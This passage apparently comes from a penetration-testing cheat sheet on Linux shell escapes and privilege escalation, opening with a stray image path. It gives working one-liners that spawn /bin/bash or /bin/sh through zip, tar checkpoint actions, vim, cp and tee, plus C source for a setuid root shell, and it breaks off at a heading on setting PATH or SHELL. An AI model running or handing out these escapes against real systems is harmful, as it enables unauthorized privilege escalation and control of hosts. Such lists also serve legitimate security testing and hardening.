 From ``zip``:

```
# zip /tmp/<FILE>.zip /tmp/<FILE> -T --unzip-command="sh -c /bin/bash"
```

From ``tar``:

```
# tar cf /dev/null <FILE> --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

From ``chsh`` ***(authenticated)***:

```
/bin/bash
```

From ``cp``, if we can copy files into existing ``PATH``:

```
#cp /bin/sh /current_directory; sh
```

From ``tee``:

```
# echo "<PAYLOAD>" | tee <FILE>.sh
```

From ``vim``:

```
:!/bin/ls -l .b*        <- File Listing

:set shell=/bin/sh
:shell

or

:!/bin/sh
```

``C`` set UID shell:

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp) {
   setresgid(getegid(), getegid(), getegid());
   setresuid(geteuid(), geteuid(), geteuid());
   
   execve("/bin/sh", argv, envp);
   return 0;
}
```

If we can set ``PATH`` or ``SHELL`` variable:
